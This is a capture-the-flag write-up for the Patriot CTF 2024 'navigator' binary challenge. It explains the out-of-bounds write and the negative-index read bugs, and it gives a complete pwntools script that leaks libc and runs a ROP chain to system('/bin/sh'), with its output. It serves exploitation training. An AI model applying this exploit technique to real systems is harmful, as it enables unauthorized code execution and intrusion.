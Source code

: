 ## pwn/navigator

Welcome to navigator! You can change stuff, view stuff and THAT'S IT.  
`nc chal.competitivecyber.club 8887`

**Given:** `navigator` `Dockerfile`

## Analysis

The given file `navigator` is a 64-bit ELF executable.
```bash
ramenhost@ctf$ checksec --file navigator 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/navigator/navigator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
All protections are enabled. Not a good news for us!

The program has three options:
1. Set Pin
2. View Pin
3. Quit

![output](navigator-output.png)

The Ghidra decompilation of some functions of interest.
![main](navigator-main.png)
![setPin](navigator-setPin.png)
![viewPin](navigator-viewPin.png)

`setPin` stores the input character in a global array. The `viewPin` function reads the character from the global array and prints it. The main function calls these functions based on the user input.

## Solution
The vulnerability lies in the bounds check of both `setPin` and `viewPin` functions. 

The global array size is 328 bytes.   
The bounds check done by `setPin`  
```c
  if (iVar1 < 0x321) { // 0x321 = 801
    printf("Pin character >> ");
    fgets(local_28,0x10,stdin);
    *(char *)(iVar1 + param_1) = local_28[0];
  }
```
We can see that `setPin` clearly has wrong bounds check using which we can do arbitary write of one character at a time to any stack address beyond the global array. Using this, we can overwrite the return address of `main` function to execute a ROP chain. To fully exploit this, we need to return to `libc` function, for which we don't know the address because of ASLR. 

The bounds check done by `viewPin`  
```c
  if (0x13f < local_30) { // 0x13f = 319
    local_30 = 0x13f;
  }
```
While the `viewPin` bounds check looks correct at first, it doesn't take negative values into account. We can use this to leak any stack address (that is lower than the global array).

We can leak any glibc address from stack using `viewPin` function and then calculate the address of `libc` base. Then we can call `system('/bin/sh')` using ROP chain by exploiting `setPin`.

### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './navigator'
target_elf = ELF(target)
# libc = ELF('./libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# b *main+250
# continue
# ''')
io = remote('chal.competitivecyber.club', 8887)

# setPin to bring some glibc function addresses to stack
info(io.recvrepeat(1))
io.sendline(b'1')
io.sendline(b'5')
io.sendline(b'A')

# viewPin can leak one byte at a time. Leak 8 bytes from stack offset -129 (calcuated from gdb)
val = bytearray()
for i in range(8):
    info(io.recvrepeat(1))
    io.sendline(b'2')
    io.sendline(b'-' + str(129 + i).encode())
    info(io.recvuntil(b'Pin:'))
    io.recvline()
    val += io.recvline().strip()

libc.address = int.from_bytes(val, 'big') - 276052
info(f'libc.address: {hex(libc.address)}')

# ROP chain to call system('/bin/sh')
rop = ROP([libc])
rop.raw(rop.find_gadget(['ret'])) # padding for stack 16-byte alignment
rop.system(next(libc.search(b'/bin/sh\x00')))
info(rop.dump())
rop_chain = rop.chain()

# setPin to write ROP chain to return address at stack offset 344 (calculated from gdb)
i = 0
for p in bytearray(rop_chain):
    info(io.recvrepeat(1))
    io.sendline(b'1')
    io.sendline(str(344 + i).encode())
    i = i + 1
    io.sendline(bytes([p]))

# quit menu to trigger ROP chain
io.sendline(b'3')

info(io.recvrepeat(1))
io.sendline(b'cat flag.txt')
info(io.recvrepeat(1))
io.close()
```
## Flag
```bash
ramenhost@ctf$ python3 exploit.py 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/navigator/navigator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.competitivecyber.club on port 8887: Done
[*] pctf{th4t_w45_ann0ying_014d0a7cb3d}
[*] Closed connection to chal.competitivecyber.club port 8887
```